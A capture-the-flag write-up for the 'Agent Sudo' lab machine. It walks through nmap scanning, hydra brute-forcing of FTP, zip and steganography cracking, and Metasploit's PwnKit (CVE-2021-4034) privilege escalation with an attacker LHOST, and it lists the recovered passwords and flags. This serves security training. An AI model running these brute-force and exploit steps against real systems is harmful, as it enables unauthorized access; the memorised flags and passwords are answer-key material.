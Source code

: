 # Agent Sudo

--------------------------------------------------------------------

**TOOLS USED**: nmap, hydra, binwalk, john, steghide, linpeas, metasploit

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.207.89

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

--script SCRIPT: script scan<br>
-sV: probe open ports to determine service/version info<br>
-oN OUTPUT_FILE: output results to given filename<br>
-p-: scan all ports
```
nmap --script vuln -sV -p- -oN nmap.txt 10.10.207.89
```

![1.1](./imgs/1.1.png)

**EXPOSED PORT (SERVICE)**:<br>
  21 (ftp vsftpd 3.0.3),<br>
  22 (ssh OpenSSH 7.6p1),<br>
  80 (http Apache httpd 2.4.29),<br>
  8797,<br>
  9649,<br>
  39873,<br>
  42206

### 2. ACCESS HIDDEN PAGES

![2.1](./imgs/2.1.png)

Use User-Agent Switcher plugin to change user agent to R<br>
https://addons.mozilla.org/en-US/firefox/addon/user-agent-string-switcher/

![2.2](./imgs/2.2.png)

![2.3](./imgs/2.3.png)

Try all other letters in alphabet

Codename: C

![2.4](./imgs/2.4.png)

**USERNAME**: chris

chris has weak password so we can try to brute force his ftp login

### 3. BRUTE FORCE FTP

```
hydra -l "chris" -P /usr/share/wordlists/rockyou.txt.gz ftp://10.10.207.89
```

![3.1](./imgs/3.1.png)

**PASSWORD**: crystal

```
ftp chris@10.10.207.89
less To_agentJ.txt
```

![3.2](./imgs/3.2.png)

```
get cute-alien.jpg
get cutie.png
```

### 4. CRACK ZIP HASH

```
binwalk cute-alien.jpg
binwalk cutie.png
```

![4.1](./imgs/4.1.png)

file hidden in cutie.png

```
binwalk cutie.png -e
```

![4.2](./imgs/4.2.png)

Convert zip to hash and then crack
```
zip2john 8702.zip > hash
john hash
```
![4.3](./imgs/4.3.png)

**PASSWORD**: alien

Open To_agentR.txt in zip file

![4.4](./imgs/4.4.png)

Use Cyber Chef to auto detect encoding algorithm<br>
https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=UVhKbFlUVXg

![4.5](./imgs/4.5.png)

QXJlYTUx = Area51

### 5. EXTRACT STEGANOGRAPHY DATA

```
steghide extract -sf cute-alien.jpg
```

![5.1](./imgs/5.1.png)

Agent J = James
**PASSWORD**: hackerrules!

```
ssh james@10.10.207.89
```

![5.2](./imgs/5.2.png)

**USER FLAG**: b03d975e8c92a7c04146cfa7a5a313c7

### 6. PRIVILEGE ESCALATION

Run linpeas
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
scp linpeas.sh james@10.10.207.89:~/linpeas.sh
chmod +x linpeas.sh
./linpeas
```

![6.1](./imgs/6.1.png)

**VULNERABLE**: CVE-2021-4034, CVE-2022-2588 (Potential)

Exploit vulnerability
```
msfconsole
auxiliary/scanner/ssh/ssh_login
set RHOSTS 10.10.207.89
set USERNAME james
set PASSWORD hackerrules!
exploit
search CVE-2021-4034
use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
set LHOST 10.6.40.234
set SESSION 1
exploit
```

![6.2](./imgs/6.2.png)

Agent R = DesKel

**ROOT FLAG**: b53a02f55b57d4439e3341834d70c062